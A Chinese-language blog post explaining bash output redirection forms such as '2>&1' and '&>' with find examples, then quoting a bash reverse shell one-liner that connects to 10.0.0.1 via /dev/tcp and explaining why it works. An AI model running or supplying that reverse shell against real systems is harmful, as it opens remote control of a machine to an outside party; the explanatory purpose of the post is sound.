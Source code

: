# [linux bash的重定向](https://www.cnblogs.com/pluse/p/9234344.html)



cnblogs原创

 

下面几种bash重定向各表示什么意思？

```
1 find / -name passwd > /dev/null
2 find / -name passwd > /dev/null 2>&1
3 find / -name passwd 2> /dev/null
4 find / -name passwd &> /dev/null
5 find / -name passwd >& /dev/null
```

上面有5种重定向，分别表示：

\1. 将find结果重定向到 /dev/null，这个find结果指的是标准输出，不含标准错误，比如以非root用户身份运行这个命令时，可能会遇到这样问题，如下：

![img](https://images2018.cnblogs.com/blog/733392/201806/733392-20180627154333286-183496882.png)

其中有的是查找到了，有的报错，对应正常查找到的是标准输出，而报错则是标准错误。标准输出与标准错误都是向屏幕输出，区别是有无缓冲，标准错误是不带缓冲的。

这个最终结果是仅输出find错误结果。

 

\2. 将find结果(标准输出)重定向到 /dev/null，同时将标准错误重定向到标准输出。在Linux中，内核默认为每个进程打开3个描述符（标准错误2、标准输出1、标准输入0）。

这个最终结果是什么都不输出。

 

\3. 将find结果(标准错误)重定向到 /dev/null，不含标准输出。

这个最终结果是只输出正常结果，不输出错误结果。

 

4/5. 这两个是相同的，只是不同写法，>&和&>完全相同，它们对位置先后无要求。将find结果(标准输出)重定向到 /dev/null，同时将标准错误重定向到标准输出。>&或者&>等同于> /dev/null 2>&1。为什么会有这种写法？大概原因是bash对csh进行兼容导致的，因为csh的标准输出和标准错误重定向是这种写法。

其实这些在bash manual手册中都是有说明的：

![img](https://images2018.cnblogs.com/blog/733392/201806/733392-20180627160657842-520471457.png) 

 

另外，网上有给出一个反弹shell，如下：

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

重定向语法上面已经解释清楚，这里无非是多了个标准输入的重定向。

使用ls命令发现/dev下面并没有这个tcp目录或者文件，这里的/dev/tcp/10.0.0.1/8000又是什么？同样在bash的manual中有说明，如下：

![img](https://images2018.cnblogs.com/blog/733392/201806/733392-20180627161053375-895690901.png)

从手册中可以看到/dev/tcp/10.0.0.1/8000是bash重定向时，一些特殊的文件而已，ls自然看不到的。

 

PS: 准备在闲暇之余用C++写个反弹shell练手的，遂有了这篇文章。但写完这篇文章之后，发现网上已经有人写过类似的（ https://www.anquanke.com/post/id/85712 ），不过没有解释/dev/tcp/host/port是怎么回事，文章就不删了，留作补充说明吧。



分类: [Unix/Linux](https://www.cnblogs.com/pluse/category/961205.html)